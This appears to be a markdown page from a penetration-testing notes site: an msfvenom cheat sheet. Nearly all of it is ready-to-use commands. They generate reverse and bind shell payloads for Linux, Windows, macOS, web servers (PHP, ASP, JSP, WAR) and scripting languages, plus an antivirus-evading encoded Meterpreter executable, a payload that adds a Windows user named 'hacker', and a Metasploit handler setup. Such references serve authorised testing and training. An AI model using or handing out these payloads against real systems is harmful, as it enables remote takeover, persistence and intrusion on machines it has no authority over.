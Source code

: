 ```yaml
---
layout: default
title: msfvenom
parent: Exploitation
nav_order: 3
---
```


# Msfvenom

**List Payloads**

`msfvenom --list payloads`

## Binary Payloads

**Linux Meterpreter Reverse Shell**

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f elf > shell.elf`

**Linux Bind Meterpreter Shell**

`msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > bind.elf`

**Linux Bind Shell**

`msfvenom -p generic/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f elf > term.elf`

**Windows Meterpreter Reverse TCP Shell**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe`

**Windows Reverse TCP Shell**

`msfvenom -p windows/shell/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f exe > shell.exe`

**Windows Encoded Meterpreter Windows Reverse Shell**

`msfvenom -p windows/meterpreter/reverse_tcp -e shikata_ga_nai -i 3 -f exe > encoded.exe`

**Mac Reverse Shell**

`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f macho > shell.macho`

**Mac Bind Shell**

`msfvenom -p osx/x86/shell_bind_tcp RHOST=<Remote IP Address> LPORT=<Local Port> -f macho > bind.macho`

## Web Payloads

**PHP Meterpreter Reverse TCP**

`msfvenom -p php/meterpreter_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.php`

`cat shell.php | pbcopy && echo ‘<?php ‘ | tr -d ‘\n’ > shell.php && pbpaste >> shell.php`

**ASP Meterpreter Reverse TCP**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f asp > shell.asp`

**JSP Java Meterpreter Reverse TCP**

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.jsp`

**WAR**

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f war > shell.war`

## Scripting Payloads

**Python Reverse Shell**

`msfvenom -p cmd/unix/reverse_python LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.py`

**Bash Unix Reverse Shell**

`msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh`

**Perl Unix Reverse shell**

`msfvenom -p cmd/unix/reverse_perl LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.pl`

## Shellcode

**Windows Meterpreter Reverse TCP Shellcode**

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>`

**Linux Meterpreter Reverse TCP Shellcode**

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>`

**Mac Reverse TCP Shellcode**

`msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Local IP Address> LPORT=<Local Port> -f <language>`

**Create User**

`msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe`

**Metasploit Handler**

```
use exploit/multi/handler
set PAYLOAD <Payload name>
Set RHOST <Remote IP>
set LHOST <Local IP>
set LPORT <Local Port>
run
```
